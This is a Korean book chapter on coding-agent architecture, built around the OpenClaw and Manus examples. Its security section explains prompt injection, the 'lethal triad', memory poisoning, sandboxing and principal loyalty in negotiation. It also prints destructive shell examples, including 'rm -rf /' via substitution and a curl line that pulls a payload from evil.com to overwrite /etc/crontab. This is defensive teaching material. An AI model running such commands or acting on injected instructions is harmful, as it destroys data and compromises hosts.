# 코딩 에이전트와 코드 생성

앞 장에서는 컨텍스트 엔지니어링(2장과 3장)과 도구 설계(4장)를 깊이 다뤘다. 이 장에서는 그 구성 요소를 조합해 한 가지 핵심 질문에 답한다. **임의의 작업을 처리할 수 있는 범용 에이전트의 아키텍처는 어떤 모습인가?**

답은 이렇다. **개방형 작업을 대상으로 하는 범용 에이전트**의 핵심은 **코딩 에이전트**, 즉 코드를 자율적으로 작성·수정·실행할 수 있는 에이전트와 **파일 시스템**의 결합이다. 파일 시스템은 프로그래머가 컴퓨터의 폴더로 프로젝트를 관리하듯 에이전트가 코드, 데이터, 메모리, 중간 결과를 저장하는 작업 공간이다. 이 결론은 업계의 실천에서 나왔다. Manus부터 OpenClaw까지 성공적인 개방형 범용 에이전트는 모두 같은 패러다임을 따른다. 코드 실행, 파일 읽기·쓰기, 검색 같은 소수의 범용 도구로 코딩 에이전트 런타임을 만들고, 그 위에 브라우저 자동화와 웹 검색 같은 능력 모듈을 쌓는다. 이 결론이 적용되는 범위와 적용되지 않는 범위는 “Manus에서 OpenClaw까지” 절의 끝에서 다룬다.

코드 생성이 어떻게 이처럼 중요한 역할을 맡을 수 있을까? 코드 생성은 도구 상자 안의 도구 하나가 아니라, 런타임에 새로운 도구와 능력을 동적으로 만들어 내는 **메타 능력**이기 때문이다. 이 장의 후반부인 “코드: 범용 에이전트의 메타 능력” 절에서는 이 개념과 여섯 가지 활용 방향을 자세히 설명한다.

코드는 두 가지 차원에서 에이전트에 기여한다. **사고**의 매체인 코드는 엄밀함을 강제한다. “나이가 18세보다 많고 신원 확인을 마쳤다”는 자연어 문장은 여러 방식으로 해석될 수 있지만, `age > 18 and is_verified`라고 쓰면 해석은 하나뿐이다. **표현**의 매체인 코드는 실행된다는 사실 자체가 논리적 일관성의 증거이며, 실행 결과는 자연어가 제공할 수 없는 객관적인 정답 기준이 된다.

이 장에서는 먼저 코딩 에이전트의 기본 능력과 OpenClaw의 범용 에이전트 아키텍처를 살펴본다. 이어서 수학적 사고와 콘텐츠 제작부터 시스템 수준의 메타 능력까지 다양한 시나리오에서 코드 생성을 활용하는 방법을 보여 준다.

## 코딩 에이전트

### 에이전트의 기반 능력인 코딩

**코드 생성은 일부 전문 에이전트만의 영역이 아니라 모든 범용 에이전트가 갖춰야 할 기반 능력이다.** 오늘날의 최첨단(SOTA) 모델을 사용하면 복잡한 아키텍처 없이도 에이전트에 기본적인 코딩 능력을 부여할 수 있다.

전형적인 작업 하나를 생각해 보자. “저장소에 남아 있는 TODO 주석을 모두 정리하고, 우선순위에 따라 분류한 뒤 이슈를 생성하라.” 이 작업을 완료하려면 디렉터리 구조 탐색(ls/glob), 코드 읽기(read), 파일 수정(edit/write), 명령 실행(bash), 패턴 검색(grep/search)이 필요하다. 이 다섯 작업 유형은 코딩 에이전트의 핵심 행동을 거의 모두 포괄하며, 아래의 일곱 도구도 여기서 나온다. 엄밀히 말하면 다섯 유형은 여섯 도구에 자연스럽게 대응한다. 일곱 번째인 코드 인터프리터는 “코드 실행/계산” 작업을 담당하며, 일부 구현에서는 Bash에 통합하기도 한다. 따라서 일곱 도구는 표준화한 참조 집합이지, 다섯 작업 유형과 엄격히 일대일로 대응하는 집합은 아니다.

기본적인 코딩 에이전트에는 다음 일곱 가지 핵심 도구만 있으면 된다.

1. **코드 인터프리터(Code Interpreter)**: 호스트 시스템과 분리된 안전한 실행 환경인 샌드박스를 제공한다. 이 안에서 Python 코드를 안전하게 실행하므로 실행 오류가 호스트에 영향을 미치지 않는다.
2. **Bash 셸**: 테스트 케이스 실행이나 특수 형식 파일 처리와 같은 터미널 명령을 실행한다.
3. **파일 읽기 도구**: 코드, 설정, 문서, 로그 등을 읽는다.
4. **파일 쓰기 도구**: 새 파일을 만들거나 기존 파일 전체를 덮어쓴다.
5. **파일 편집 도구**: 기존 파일의 일부를 수정한다. 코드 유지보수와 반복 개선의 핵심 작업이다.
6. **파일 이름 검색 도구(Glob)**: 패턴 일치로 파일 시스템에서 대상 파일을 빠르게 찾는다. 예를 들어 `**/*.py`로 프로젝트의 모든 Python 파일을 찾을 수 있다.
7. **파일 내용 검색 도구(Grep)**: 파일 내용에서 특정 텍스트 패턴을 검색한다. 예를 들어 특정 함수를 호출하는 모든 코드 줄을 찾을 수 있다.

이 일곱 도구는 완전하면서도 최소한인 도구 상자를 이룬다. 거의 모든 에이전트 시스템이 적은 비용으로 통합할 수 있으며, 구현할 때는 4장에서 소개한 MCP 프로토콜을 통해 모두 표준화된 도구 서비스로 노출할 수 있다. 이 도구 집합은 코딩 에이전트에 특화된 기본 구성으로, 4장에서 호출 방향과 기능적 역할에 따라 분류한 다섯 가지 범용 도구 유형인 인식·실행·협업·이벤트 트리거·사용자 커뮤니케이션과는 구분된다. 일곱 핵심 도구는 주로 인식과 실행 유형을 포괄한다. 그렇다면 협업, 이벤트 트리거, 사용자 커뮤니케이션은 어떻게 처리할까? 코딩 에이전트에서는 보통 도구 계층이 아니라 프레임워크가 담당한다. 예를 들어 하위 에이전트 위임은 전용 협업 도구가 아니라 프레임워크의 오케스트레이션 논리로 처리한다.

이 일곱 도구가 어떻게 함께 작동하는지 가장 간단한 작업으로 살펴보자. 사용자가 “프로젝트의 모든 TODO 주석을 목록으로 정리해 줘”라고 요청했다고 하자.

```
에이전트 (사고): TODO가 포함된 모든 코드 줄을 찾아야 한다.
에이전트 → Grep("TODO", glob="**/*.py")          # 파일 내용 검색
도구 반환:
  src/api.py:42: # TODO: 속도 제한 추가
  src/db.py:15:  # TODO: PostgreSQL로 마이그레이션
  tests/test_api.py:8: # TODO: 경계 사례 테스트 추가

에이전트 (사고): TODO 3개를 찾았다. 목록으로 정리해 파일에 써야 한다.
에이전트 → Write("TODO_LIST.md", content="...")   # 파일 쓰기
도구 반환: 파일 생성됨

에이전트: 완료. TODO 항목 3개를 찾았고 목록을 TODO_LIST.md에 저장했다.
```

전체 과정에는 내용 검색용 Grep과 파일 쓰기용 Write, 두 도구만 사용했다. “모듈별 TODO 수를 집계하고 막대그래프를 그려라”처럼 작업이 더 복잡하다면 에이전트는 코드 인터프리터로 Python 코드를 실행해 통계를 계산하고 그래프도 그릴 것이다. 일곱 도구는 각각 단순하지만, 조합하면 놀랄 만큼 다양한 작업을 처리할 수 있다.

왜 모든 범용 에이전트에 코딩 능력이 필요할까? 코드 생성은 단순히 프로그램을 작성하는 기술이 아니라 범용적인 문제 해결 수단이기 때문이다. 수학 문제를 만나면 코드를 작성해 풀이기에 전달함으로써 정확한 답을 구할 수 있다. 비즈니스 규칙을 명확히 고정해야 할 때는 코드가 어떤 자연어 설명보다 정밀하다. 필요한 도구가 없으면 즉석에서 만들 수 있고, 데이터 형식이 바뀌면 새로운 파싱 논리를 생성할 수 있다. 뒤의 절에서 이러한 시나리오를 하나씩 다룬다. 기본적인 코딩 능력이 있는 에이전트는 위의 단순한 일곱 도구만 갖췄더라도 새로운 요구가 생길 때마다 능력을 확장할 수 있다.

### 사례 연구: Manus에서 OpenClaw까지—범용 에이전트의 코딩 핵심

Manus 같은 범용 에이전트 제품은 Deep Research, 컴퓨터 사용(Computer Use), 코딩이라는 세 가지 주요 능력을 하나의 시스템에 결합한다. 이는 실무에서 거듭 확인된 통찰을 뒷받침한다. **코딩 에이전트와 파일 시스템의 결합은 개방형 범용 에이전트의 가장 근본적인 기술 토대다.** 오픈 소스 프로젝트 OpenClaw도 비슷한 접근법을 채택해 같은 아키텍처 패러다임을 공개적으로 보여 준다.

왜 나머지 두 능력이 아니라 코딩 에이전트가 핵심일까? 효율적인 콘텐츠 생성은 거의 모두 궁극적으로 코드로 귀결되기 때문이다. PPT는 본질적으로 Microsoft의 개방형 오피스 문서 표준인 OOXML(Office Open XML) 형식의 코드다. Word 문서와 PDF 보고서는 코드로 생성할 수 있고, 데이터 분석과 시각화는 Python 스크립트로 수행한다. 성공한 GUI 워크플로도 재사용 가능한 로봇 프로세스 자동화(RPA, Robotic Process Automation) 코드로 기록할 수 있다. 컴퓨터 사용 자체는 9장에서, 조작 순서를 기록하는 메커니즘은 8장에서 자세히 다룬다. Deep Research의 검색과 정보 종합도 코드가 주도하는 웹 요청과 파싱으로 구현할 수 있다. 컴퓨터 사용이 더 범용적이기는 하지만, 같은 작업이라면 직접 코드나 API를 호출하는 편이 대체로 더 저렴하고 빠르며 안정적이다. 코드 생성은 가장 효율적이고 비용이 낮으며 재사용성이 높은 능력의 토대다.



구체적인 실행 흐름을 통해 이 아키텍처를 이해해 보자. 사용자가 “지난 분기의 판매 데이터를 분석하고 요약 보고서를 만들어 줘”라고 요청했다고 하자.

1. **메모리 읽기**: 에이전트가 `MEMORY.md`를 읽고 사용자가 PDF 형식의 보고서를 선호하며 데이터 소스는 Google Sheets라는 사실을 파악한다.
2. **도구 호출**: 웹 검색 모듈로 Google Sheets API 사용법을 알아낸 뒤 코드를 실행해 데이터를 내려받는다.
3. **코드 작성**: Python으로 데이터 분석 스크립트를 생성한다(pandas 집계, matplotlib 시각화).
4. **산출물 생성**: 분석 결과는 `report.pdf`에, 차트는 `charts/` 디렉터리에 저장한다.
5. **메모리 업데이트**: 다음번에는 다시 묻지 않도록 “사용자의 판매 데이터는 Google Sheets에 있으며 ID는 xxx다”라는 내용을 `MEMORY.md`에 기록한다.

이 과정 전체에서 파일 시스템은 정보 흐름의 중심 역할을 한다. 메모리를 파일에서 읽고, 산출물을 파일에 쓰며, 경험도 파일로 저장한다.

**에이전트의 중심 허브인 파일 시스템.** OpenClaw에서 파일 시스템은 단순한 데이터 저장소를 훨씬 넘어 에이전트의 메모리, 지식, 능력을 잇는 중심 허브다. 에이전트의 장기 메모리는 상위 수준의 사실과 사용자 선호를 담은 `MEMORY.md`, 그리고 날짜별로 보관하는 Markdown 로그에 저장된다. 벡터 데이터베이스 대신 Markdown을 선택하는 것이 직관에 어긋나 보일 수 있지만 매우 효과적이다. 사용자가 파일을 직접 열어 에이전트의 메모리를 읽고 수정할 수 있고, 에이전트가 잘못 기억한 내용이 있다면 해당 줄만 지우면 된다. Markdown은 시간 순서를 자연스럽게 보존해 의미 검색에서 발생할 수 있는 시간적 혼동을 막고, Git을 통한 버전 관리와 롤백도 지원한다.

더 중요한 점은 에이전트가 파일을 쓸 수 있으므로 자신의 외부 산출물을 수정할 기술적 수단도 갖는다는 것이다. 에이전트가 어떤 작업을 처음 수행하면서 이전에는 몰랐던 핵심 정보를 발견했다고 하자. 예를 들어 특정 은행에 전화했더니 신원을 확인하려면 지점 주소가 필요하다는 사실을 알게 될 수 있다. 에이전트는 우선 이 발견을 기록으로 남길 수 있다. 다만 이런 기록이 신뢰할 수 있는 지식, 지침, 프로그램이 되기에 충분한 시점을 판단하려면 추가 궤적과 결과 검증이 필요하다. 이는 8장에서 다룰 지속적 진화의 문제다.

**적용 범위: 코딩을 핵심 아키텍처로 삼는 에이전트.** “코딩 에이전트가 범용 에이전트의 핵심이다”라는 결론은 주로 **개방형 작업을 대상으로 하는 범용 에이전트**에 적용된다. 심층 연구, 콘텐츠 생성, 데이터 처리처럼 작업 경계가 불확실하고 산출물 형태가 다양한 시나리오가 이에 해당한다. 이런 시나리오에서는 필요한 도구를 모두 미리 열거할 수 없다. 메타 능력인 코드 생성은 능력의 경계를 동적으로 확장하는 가장 경제적인 방법이므로 아키텍처의 핵심이 된다. 반면 수직 도메인의 고객 서비스 에이전트와 음성 비서는 비교적 폐쇄적인 작업 공간에서 작동하며, 고정된 비즈니스 프로세스, 도메인 도구, 대화 전략을 중심으로 아키텍처를 구성한다. 이때 코드는 아키텍처의 허브가 아니라 도구 상자 안의 도구 하나다. 이 장 뒤에서 고객 서비스 시나리오를 모사하는 벤치마크인 τ-bench를 살펴볼 때도 코드는 정확히 정책 검증 도구 역할을 한다. 하지만 후자의 경우에도 코딩은 없어서는 안 될 기반 능력이다. 정확한 계산, 데이터 처리, 규칙 검증이 모두 코딩에 의존하기 때문이다. 이는 앞 절의 “에이전트의 기반 능력인 코딩”이라는 주장과 이어진다. 코딩이 핵심 아키텍처인지 여부는 시나리오에 따라 달라지지만, 코딩 능력 자체는 모든 에이전트의 공통 기반이다.

### 세션리스 설계

다음으로 “언제나 사용 가능”한 상호작용 방식과 보안 아키텍처라는 두 가지 설계를 논의한다. 얼핏 코딩 에이전트와 무관해 보이지만, 코딩 에이전트의 핵심 관심사인 코드 실행 환경과 파일 시스템 상태를 관리하는 방식을 직접 결정한다. 코딩 에이전트가 단계별로 작동하는 방식부터 이해하고 싶은 독자는 “코딩 에이전트의 전체 워크플로” 절을 먼저 읽고, 상호작용과 보안 설계를 살펴보기 위해 이곳으로 돌아와도 된다.

OpenClaw는 **세션리스(Sessionless)** 설계를 채택한다. 사용자는 앱을 설치하거나 로그인할 필요도, 상호작용할 때마다 앱을 열 필요도 없다. 에이전트는 항상 온라인 상태이며, 사용자는 평소 쓰던 메시징 플랫폼에서 언제든 메시지를 보내 응답을 받을 수 있다. 이러한 상호작용 패러다임과 그 기반인 Gateway 메시지 라우팅 및 이벤트 기반 아키텍처는 4장의 사용자 커뮤니케이션 도구 절에서 자세히 다뤘으므로 여기서는 반복하지 않는다. 강조할 점은 이 패러다임이 성립하는 전제다. 대규모 모델은 새로운 종류의 “지능형 토대” 역할을 할 만큼 발전했다. 전통적인 운영체제가 하드웨어를 추상화해 상위 애플리케이션에 통합 인터페이스를 제공하듯, 대규모 모델은 언어 이해, 사고, 계획의 복잡성을 추상화해 상위 에이전트에 통합된 지능 추상화를 제공한다. 이 토대가 있기에 “항상 온라인 + 즉시 응답” 패러다임을 적은 비용으로 엔지니어링할 수 있다.

코딩 에이전트에서 세션리스 운영의 핵심 엔지니어링 과제는 **메시지가 바뀌어도 코드 실행 환경과 파일 시스템 상태를 보존하는 것**이다. 두 사용자 메시지의 간격은 몇 분일 수도, 며칠일 수도 있다. 에이전트의 작업은 샌드박스에 설치한 패키지, 터미널 세션의 작업 디렉터리와 환경 변수, 백그라운드 개발 서버, 작성 중인 파일 등 수많은 암묵적 상태에 의존한다. OpenClaw는 상태를 두 계층으로 나누어 관리한다. **파일 시스템 상태는 본질적으로 지속된다.** 작업 공간 디렉터리를 샌드박스 외부의 영구 저장소에 마운트하므로 코드, 데이터, 중간 산출물이 메시지와 샌드박스 재시작을 거쳐도 남는다. 이것은 “에이전트의 중심 허브인 파일 시스템”이 지닌 또 다른 의미다. **프로세스 상태는 유지하거나 필요할 때 다시 구축한다.** 활성 기간에는 샌드박스와 터미널 세션을 계속 실행해 메시지마다 콜드 스타트하고 작업 디렉터리로 다시 이동하며 가상 환경을 다시 활성화하는 일을 피한다. 유휴 시간 제한이 지나면 자원을 회수하기 위해 종료하지만, 종료 전에 직렬화할 수 있는 환경 상태인 작업 디렉터리, 환경 변수, 백그라운드 작업 목록을 작업 공간 파일에 기록한다. 다음번에 깨어날 때 에이전트가 이 기록으로 환경을 다시 구축한다. 이 장 뒤의 “명령 실행 환경의 상태 지속성” 절에서 다루는 지속형 터미널 세션은 단일 작업 안에서 이 메커니즘에 대응한다. 세션리스는 같은 문제를 메시지와 날짜를 가로지르는 시간 척도로 확장한다.

세션리스도 유지보수가 전혀 필요 없는 것은 아니다. 모든 사용자 메시지에서 **전체 궤적과 작업 상태를 다시 불러와야 하므로** 효율적인 상태 직렬화와 효과적인 궤적 압축 전략이 특히 중요하다. 궤적 압축의 설계 원칙은 2장의 “컨텍스트 압축 전략” 절에서 다뤘고, 이 장에서는 세션리스 아키텍처가 요구하는 엔지니어링 절충에 집중한다.

### 코딩 에이전트의 보안

이 절에서는 코딩 에이전트의 방어 체계를 일관된 프레임워크로 정리한다. 먼저 어떤 위험이 가장 치명적인지 설명하는 **위협 모델**을 세운다. 다음으로 샌드박스의 네트워크 이그레스, 파일 시스템, 자원 제한을 다루는 **안전망으로서의 격리**를 살펴본다. 이어서 명령의 의미 분석과 보안 검사를 “보이지 않게” 만드는 추측 실행을 포함한 **실행 시점 방어**를 다룬다. 마지막으로 다자간 위임에서 에이전트가 누구를 섬기는지, AI가 작성한 코드 자체를 신뢰할 수 없을 때 신뢰 경계를 데이터 계층으로 내리는 방법을 설명하는 **신뢰와 충성**으로 마무리한다. 위협 모델, 충성도, 신뢰 경계에 관한 논의는 모든 에이전트에 적용되지만, 샌드박스와 명령 파싱은 코딩 에이전트에 특화되어 있다.

이러한 “주권형 에이전트(sovereign Agent)” 패러다임에는 심각한 보안 문제도 따른다. 코딩 에이전트는 파일을 읽고 쓰며 명령을 실행하고 네트워크에 접근할 권한이 있으므로, 악성 지시가 주입되면 되돌릴 수 없는 피해를 일으킬 수 있다. 개발자이자 독립 연구자인 Simon Willison은 이 위험을 유명한 “치명적 삼각 구도(Lethal Triad)”로 요약했다. 다음 세 요소가 모두 존재하면 완전한 공격 루프가 형성되어 시스템이 고위험 상태에 놓인다.

1.  **비공개 데이터 접근** — 에이전트가 사용자 파일과 비밀번호 관리자를 읽을 수 있다.
2.  **신뢰할 수 없는 콘텐츠 노출** — 처리하는 이메일과 웹 페이지에 악성 페이로드가 들어 있을 수 있다.
3.  **외부 통신 능력** — 이메일을 보내고 명령을 실행할 수 있다.

이렇게 공격 루프가 닫힌다. 신뢰할 수 없는 콘텐츠에 숨은 악성 지시가 에이전트에 들어와 비공개 데이터를 읽게 하고, 외부 채널로 유출하게 한다. 별도의 조건이 없어도 세 요소가 모두 존재한다는 사실만으로 충분히 위험하다는 점에 유의해야 한다. 여기에 저자는 네 번째 차원인 **지속 메모리**를 덧붙인다. 지속 메모리는 나란히 놓이는 네 번째 필요조건이 아니라 공격을 증폭하는 요소다. 공격자는 겉보기에 무해한 편향이나 악성 지시를 에이전트의 장기 메모리에 기록해 여러 세션에 걸쳐 잠복시켰다가 알맞은 순간에 작동시킬 수 있다. 그 결과 일회성 공격이 오랫동안 잠복하며 시간이 갈수록 확대되는 위협으로 바뀐다.

이 네 가지는 데이터 경계, 입력 신뢰 경계, 출력 영향 경계, 세션 간 경계라는 네 종류의 경계로 요약할 수 있다. OpenClaw처럼 모든 권한을 가진 로컬 에이전트는 네 위험 차원을 모두 아우르므로 보안 방어가 반드시 해결해야 할 핵심 과제가 된다.

이 점은 Claude Cowork 같은 폐쇄형 상용 에이전트가 보수적인 권한 전략을 선택한 이유도 설명한다. Claude Cowork는 Claude Code의 에이전트형 아키텍처를 재사용하는 Anthropic의 지식 업무용 범용 에이전트로, 로컬 파일을 읽고 쓰며 여러 오피스 애플리케이션에 걸친 다단계 작업을 수행할 수 있다. 보수적인 전략을 택한 것은 기술이 부족해서가 아니라 보안 위험이 지나치게 크기 때문이다. 프롬프트 인젝션에는 입력 필터링만으로 거의 대응할 수 없다. 목표는 모든 공격을 알아내는 것이 아니라, 지시가 주입된 에이전트가 위험한 행동을 끝까지 수행할 기회 자체를 없애는 것이다. 앞의 두 장에서 방어 체계를 계층별로 세웠다. **컨텍스트 계층 방어**에는 외부 콘텐츠 출처 표시, 구조화된 역할 격리, 입력 정제가 있으며 2장의 프롬프트 인젝션 절에서 다뤘다. **실행 계층 방어**에는 사이드카(Sidecar) 독립 검토, 휴먼 인 더 루프(human-in-the-loop), 최소 권한, 권한 분리가 있으며 4장에서 다뤘다. 에이전트는 자신의 컨텍스트가 침해되었는지 신뢰성 있게 판단할 수 없으므로, 중요한 작업은 반드시 그 컨텍스트 밖의 메커니즘이 검토해야 한다. 이 원칙은 두 장을 관통한다. 이 절에서는 코딩 에이전트에 특화된 세 가지 보호 장치만 추가한다.

- **명령 의미 파싱** — 셸 명령의 조합이 폭발적으로 늘어나므로 키워드 블랙리스트는 무용지물이다. 명령이 실제로 미치는 영향을 의미 수준에서 이해해야 한다. 이 절의 뒤에서 자세히 설명한다.
- **샌드박스 격리와 네트워크 이그레스 제어** — 코드 실행은 코딩 에이전트에 고유한 공격 표면이다. 격리 수준과 이그레스 전략의 엔지니어링 선택은 이 절 뒤에서 다룬다.
- **지속 메모리의 세션 간 방어** — 이 장에서는 치명적 삼각 구도 분석을 지속 메모리까지 확장한다. 장기 메모리에 쓰는 콘텐츠도 외부 입력과 똑같은 신뢰 검토를 거쳐야 악성 지시가 `MEMORY.md`에 잠복했다가 나중에 효력을 발휘하는 일을 막을 수 있다.

이 세 보호 장치는 각각 검증, 실행, 데이터 계층에 속하며 앞의 두 장에서 세운 방어 체계를 보완한다. 위험을 완전히 없앨 수는 없지만 에이전트의 공격 표면을 줄일 수 있다.

**안전망으로서의 격리: 코드 실행 샌드박스의 엔지니어링 선택.** 샌드박스는 단순히 켜고 끄는 기능이 아니라 일련의 엔지니어링 결정이다. 4장에서는 격리가 필요한 이유와 프로세스 수준 격리, 컨테이너, microVM으로 이어지는 3단계 격리 메커니즘을 이미 설명했다. 또한 개인 로컬 컴퓨터에는 프로세스 수준 격리, 단일 테넌트 클라우드 환경에는 컨테이너, 멀티 테넌트 환경이나 신뢰할 수 없는 코드에는 microVM 또는 gVisor를 사용한다는 선택 원칙도 제시했다. 여기서는 이를 반복하는 대신 코딩 에이전트를 구현할 때 추가로 고려해야 할 네 가지 문제를 다룬다. 네트워크 이그레스를 관리하는 방법, 파일 시스템을 마운트할 범위, 자원 제한 방법, 지속 세션과 격리를 조화시키는 방법이다.

**네트워크 이그레스(외부 송신) 제어.** 가장 놓치기 쉬우면서도 가장 중요한 항목이다. 기본적으로 네트워크를 차단하고, 패키지 소스, 문서 사이트, 작업에 명시적으로 필요한 API 등 제한된 대상에만 화이트리스트 프록시를 통해 필요할 때 접근을 허용한다. 치명적 삼각 구도의 세 번째 요소인 “외부 통신 능력”을 되짚어 보면 네트워크 이그레스 제어는 이에 대한 실행 계층의 방어다. 프롬프트 인젝션에 성공해 악성 코드가 샌드박스 안의 민감 데이터를 읽더라도 외부 송신 경로가 없으면 데이터를 전송할 수 없다. 모든 인젝션을 식별하려는 시도보다 데이터 유출 경로를 차단하는 편이 훨씬 결정론적인 방어선이다.

**파일 시스템 격리 범위.** 소스 코드 디렉터리는 읽기 전용으로 마운트한다. 에이전트는 편집 도구로 코드를 수정하고, 생성한 패치는 검토를 마친 뒤 디스크에 기록한다. 또는 소스 사본을 쓰기 가능한 작업 공간에 마운트할 수 있다. 별도의 쓰기 가능한 작업 공간 디렉터리에는 생성한 산출물과 중간 파일을 둔다. 자격 증명 파일인 `~/.ssh`, 키, 토큰은 샌드박스에 전혀 마운트하지 않는다. 보이지 않는 데이터는 유출할 수 없으며, 이는 치명적 삼각 구도의 첫 번째 요소에 대응한다.

**자원 제한과 시간 초과.** CPU, 메모리, 디스크 할당량과 실제 경과 시간 기준의 시간 제한을 설정해 무한 루프, 시스템이 멈출 때까지 프로세스를 빠르게 복제하는 포크 폭탄(fork bomb), 무제한 디스크 쓰기를 방어한다. 실무에서 중요한 점이 하나 있다. 시간 초과나 제한 위반이 발생하면 프로세스를 조용히 종료하는 대신 “120초 후 실행을 종료했습니다. 마지막 출력은...”과 같은 구조화된 오류를 에이전트에 반환해야 한다. 그래야 에이전트가 다음 차례에 전략을 수정할 수 있다.

**지속 세션과 격리의 조화.** 이 장 뒤의 “명령 실행 환경의 상태 지속성” 절에서는 장시간 유지되는 터미널 세션을 권장하지만, 격리 원칙은 일회용 환경을 권장하므로 둘 사이에는 긴장이 있다. 해결책은 **샌드박스 안에서만 세션을 유지하는 것**이다. 터미널 세션은 샌드박스보다 오래 살아남아서는 안 되며, 세션 상태가 호스트 컴퓨터로 빠져나가서도 안 된다. 앞서 살펴본 세션리스 아키텍처처럼 긴 시간 간격을 두고 복구해야 하는 시나리오에서는 샌드박스의 수명을 무한히 연장하는 대신 샌드박스 스냅샷이나 “작업 공간 파일 지속성 + 스크립트를 통한 환경 재구축”으로 상태를 복원한다. 다시 말해 지속시키는 대상은 불투명하게 실행 중인 프로세스가 아니라 파일, 스크립트, 매니페스트 같은 **감사 가능한 상태 설명**이다.

**안전: 키워드 블랙리스트보다 의미 파싱.** 1장에서는 검증 계층이 패턴 일치가 아니라 의미 이해에 의존해야 한다고 주장했다. 셸 명령의 보안 검증은 이 원칙을 적용하기 가장 까다로운 영역이다. 단순한 키워드 블랙리스트는 셸 명령의 폭발적인 조합을 감당할 수 없다. 파이프, 하위 셸, 변수 확장 등을 이용하면 어떤 정적 규칙도 우회할 수 있다. 예를 들어 `rm`을 차단해도 공격자는 `$(echo rm) -rf /`으로 우회할 수 있다. 프로덕션급 하네스는 의미 파싱을 사용한다. 각 명령의 인수 유형과 파싱 규칙, 즉 어떤 플래그가 뒤따르는 인수를 소비하는지 식별하고, 겉보기에 무해한 플래그가 다음 인수에 위험한 페이로드를 숨기는 공격 패턴을 알아낸다. 예를 들어 `find / -name '*.log' -exec rm {} \;`은 `rm` 삭제 작업을 정상적인 `find` 명령 인수 안에 삽입한다. `curl -o /etc/crontab http://evil.com/payload`는 파일을 내려받는 것처럼 보이지만 실제로는 시스템의 예약 작업을 덮어쓴다. 의미 파싱은 중첩된 위험 작업을 식별할 수 있지만 단순한 명령 블랙리스트는 잡아내지 못한다. 일치가 아닌 이해에 기반한 이 보안 메커니즘은 “제약” 기능을 고수준으로 구현한 사례다.

**추측 실행: 보안 검사를 “보이지 않게” 만들기.** 이는 4장에서 다룬 사이드카 게이팅 메커니즘이 사용자 경험 차원에서 내는 효과다. 4장에서는 중요한 작업을 주 컨텍스트와 독립된 사이드카가 검토해야 하는 이유를 설명했고, 여기서는 그 검토의 지연 시간을 사용자가 사실상 느끼지 못하게 만드는 방법에 집중한다. 사용자에게 보이는 진행 상황과 실행 승인을 분리하는 방식이다. 에이전트가 도구 호출을 실행하려 할 때 시스템은 인터페이스에 “`src/main.py` 파일을 읽는 중...”과 같은 진행 안내를 표시하고, 백그라운드에서 보안 검사를 수행한다. 흔히 쓰는 비유 하나를 분명히 해 둘 필요가 있다. 이 방식은 CPU의 추측 실행과 다르다. CPU의 추측이 틀리면 계산 결과를 버리고 상태를 롤백해야 하지만, 여기서 먼저 수행하는 행동은 실제 상태를 바꾸지 않는 **부작용 없는 UI 안내**일 뿐이다. 검사에 실패해도 롤백할 필요 없이 안내를 “확인 대기 중”으로 바꾸면 된다. 대부분은 사용자가 알아차리기도 전에 보안 검사가 끝나므로 추가 지연을 느끼지 않는다. 빠른 판단이 불가능할 때만 시스템이 실제로 멈추고 확인을 기다린다. 사용자 경험을 희생하지 않고 보안을 확보하는 하네스 설계의 정점이다.

**에이전트는 누구를 섬기는가: 다자간 위임에서의 충성도.**

앞의 보안 메커니즘은 “명령이 악의적으로 실행되는 것”을 막는다. 하지만 더 미묘한 보안 문제인 **위임자 충성도(principal loyalty)**가 있다. 핵심 질문은 **에이전트가 실제로 누구의 편에 서는가**다. 모델은 “나와 대화하는 사람이 누구든 최선을 다해 돕는다”라는 순진한 기본 원칙으로 학습된다. 그러나 현실의 에이전트는 흔히 **다자간 위임** 상황에서 작동한다. 위임자를 대신해 행동하면서 이해관계가 충돌하는 제3자와 상대해야 한다. 사용자를 대신해 가격을 협상하는 에이전트가 마주하는 상대는 “도움이 필요한 사용자”가 아니라 **협상 상대**다. 이때 “말을 거는 사람을 돕는다”는 위험한 기본값이다. 상대방은 에이전트와 대화하기만 해도 영향력을 행사하기 시작할 수 있다.

프런티어 모델을 이런 상황에 놓으면 양쪽 끝에서 모두 실패하는 뚜렷한 **충성도 스펙트럼**이 드러난다[^ch5-1]. 한쪽 끝에서는 **지나치게 솔직해** “우리의 최저선은 12,000이다” 같은 위임자의 비공개 정보를 상대에게 그대로 넘기고, 몇 차례 압박을 받으면 굴복한다. 반대쪽 끝에서는 **지나치게 의심해** 위임자의 정당한 요청까지 거부하므로 작업을 실패한다. 어려운 점은 두 실패가 시소 관계라는 것이다. 정보 유출을 막으면 과도한 거부 쪽으로 기울기 쉬워 둘 다 피하기 어렵다.

